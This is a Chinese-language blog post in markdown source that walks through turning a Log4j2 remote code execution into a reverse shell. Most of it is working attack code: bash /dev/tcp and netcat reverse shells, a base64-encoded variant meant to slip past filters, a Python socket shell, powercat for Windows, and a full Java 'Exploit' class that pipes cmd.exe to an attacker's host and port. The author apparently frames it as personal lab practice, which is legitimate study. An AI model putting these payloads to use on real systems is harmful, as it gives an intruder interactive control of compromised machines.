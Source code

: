 ```yaml
---
title: 从RCE到getShell——Log4j2进阶利用
date: 2022-12-27 14:53:14
tags: 
- java
- RCE
- Reverse shell
---
```


## 前言

前几天复现了Log4j2的RCE漏洞，最后实现的是弹出计算器，因为恶意类Exploit是这么写的：

```java
public class Calc {
    public Calc(){
        // System.out.println("Hello!!!!!!!!!!!!!!!!!");
        try{
            String[] commands = {"calc.exe"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Calc e = new Calc();
    }
}
```

看起来很有趣，但没什么卵用。因为Runtime.getRuntime().exec()这个方法限制太多，能运行的只有很少一部分系统软件，而且也完全没有回显。既然实现了RCE，如果能getshell就好了，一般会这么想吧，因此明显的思路就是反弹Shell了。

## 反弹shell

反弹shell有非常多有趣的方法，最常用的是Linux环境下Bash+netcat反弹shell

### Bash反弹shell

靶机执行：

```bash
bash -i >& /dev/tcp/ip/port 0>&1
```

此时在攻击机用nc监听该端口即可：

```bash
nc -lvnp 8888
```

注：有时用-lvp参数会报错，加个n参数就好了。

[原理](https://www.freebuf.com/articles/system/178150.html)很简单，首先Linux shell的标准文件描述符如下：

- 0	标准输入，使用<
- 1    标准输出，使用>
- 2    标准错误输出，使用2>

具体命令分解如下：

**-i**是交互式bash shell；**/dev/tcp**实际上是一个socket设备，打开/dev/tcp/ip/port实际上是发起一个对该ip对应端口的tcp请求；**>&**后面接socket文件，实际上是把标准输出和标准错误输出重定向到该文件，也就是返回到远端上；最后的**0>&1**意思是将标准输入重定向到标准输出，也就是将标准输入也重定向到远程shell。

这个命令最常用，但也最容易被过滤，base64编码后可用绕过一些安全措施：

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzNy4xMzUvNzg5MCAwPiYx|{base64,-d}|{bash,-i}'
```

### python反弹shell

如果有python环境，可以用python实现socket通信完成反弹shell:

```bash
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

攻击机用netcat监听即可：

```bash
nc -lnvp 8888
```

写成一般形式：

```python
import os,socket,subprocess
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('ip',port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(['/bin/bash','-i'])
```

不过即便改了子线程call的参数，在Windows环境下也会报错，似乎只能用于Linux环境。

### nc反弹shell

这个是最简单但用的最少的，因为很难装上nc环境：

靶机：

```bash
nc ip 8888 -e /bin/sh  
```

```powershell
powercat ip 8888 -e c:\windows\system32\cmd.exe
```

攻击机:

```bash
nc -lvp 8888 
```

Windows下即便用IEX远程加载poweshell函数也很难绕过

![img](https://i.328888.xyz/2022/12/25/Dxdwa.png)

结果花了不少功夫还是没办法再Windows上反弹shell，但回头一想，自己一直是利用Java的Runtime.getRuntime().exec()执行cmd命令，说实话其实绕了远路，直接利用Java的socket类完成通信不更方便嘛？干脆着手写个Java类实现反弹shell吧：

### Java反弹Shell

```java
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
public class Exploit {
    public Exploit()throws Exception{
        String host = "IP";
        int port = 8888;
        String cmd="C:\\Windows\\system32\\cmd.exe";
        Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s = new Socket(host,port);
        InputStream pi = p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        OutputStream po = p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0) {
                so.write(pi.read());
            }
            while(pe.available()>0) {
                so.write(pe.read());
            }
            while(si.available()>0) {
                po.write(si.read());
            }
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception ignored){
            }
        };
        p.destroy();
        s.close();
    }

    public static void main(String[] argv) throws Exception {
        Exploit e = new Exploit();
    }
}

```

搞定

![Dxsmp](https://i.328888.xyz/2022/12/25/Dxsmp.png)

不过中文莫名变成乱码了，大概是默认编码有问题，改天再改下。
